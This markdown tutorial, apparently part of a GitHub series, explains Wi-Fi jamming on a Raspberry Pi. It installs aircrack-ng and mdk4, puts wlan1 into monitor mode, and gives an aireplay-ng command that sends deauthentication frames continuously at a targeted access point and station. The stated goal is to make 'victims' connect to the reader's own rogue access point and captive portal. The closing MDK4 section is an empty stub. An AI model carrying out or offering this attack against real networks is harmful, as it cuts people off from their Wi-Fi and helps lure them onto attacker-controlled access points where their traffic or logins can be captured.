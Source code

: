 # WI-FI Jamming with Raspberry PI

If you have read the previous tutorial [Wi-Fi Analysis](../WIFIAnalysis), you know your Wi-Fi environment around your location. Now you can immediately create an [Simple Access Point](../AccessPoint) and wait until the first victims come by themselves. You can also do this process a little faster -> The IEEE 802.11 (_Wi-Fi_) protocol contains the provision for a deauthentication frames.

## Objective

The aim of this tutorial is to speed-up the process that stations will connect to your access point.

## Precondition

You should already have read (_and successful carried out_) the following tutorials.

- [Setup Raspberry PI](../Setup)
- [Prepare Raspberry PI](../Preparation)
- [Wi-Fi Analysis](../WIFIAnalysis)

## Install needed and/or optional packages

Install (_or ensure they are installed_) following packages.

```shell
# update system (optional)
$ sudo apt update -y && sudo apt upgrade -y

# install optional packages (optional)
$ sudo apt install -y vim wireless-tools

# install needed packages
$ sudo apt install -y aircrack-ng mdk4
```

## Attention

> In this tutorial we need the `wlan1` interface in the so-called monitor mode. You cannot use the `wlan0` interface from the Raspberry PI for this.

If you have already set up an [Access Point](../AccessPoint) and/or a [Captive portal](../CaptivePortal), you should stop them now!

```shell
# stop nodogsplash service
$ sudo systemctl stop nodogsplash

# stop hostapd service
$ sudo systemctl stop hostapd

# stop dnsmasq service
$ sudo systemctl stop dnsmasq
```

## Monitor Mode

The Wi-Fi interface (_wlan1_) must be set into "monitor mode".

```shell
# set interface down
$ sudo ip link set wlan1 down

# turn interface into monitor mode
$ sudo iwconfig wlan1 mode monitor

# set interface up
$ sudo ip link set wlan1 up
```

## aireplay-ng (Aircrack-ng)

The Aircrack-ng suite includes many tools to assess Wi-Fi networks. Here we focus on `aireplay-ng` only. 

```shell
# show help (optional)
$ aireplay-ng --help

# start deauthentication attack
$ sudo aireplay-ng -0 0 -a [mac address] -c [mac address] wlan1
```

- `-0` means, deauthentication mode
- `0` means, send continuously deauthentication frames (_otherwise you can set a specific number_)
- `-a [mac address]` means, mac address of the access point
- `-c [mac address]` means, mac address of the station
- `wlan1` means, the interface`(_in monitor mode_)

## MDK4

... in work ...

```shell
#
$
```

[Go Back](../readme.md)
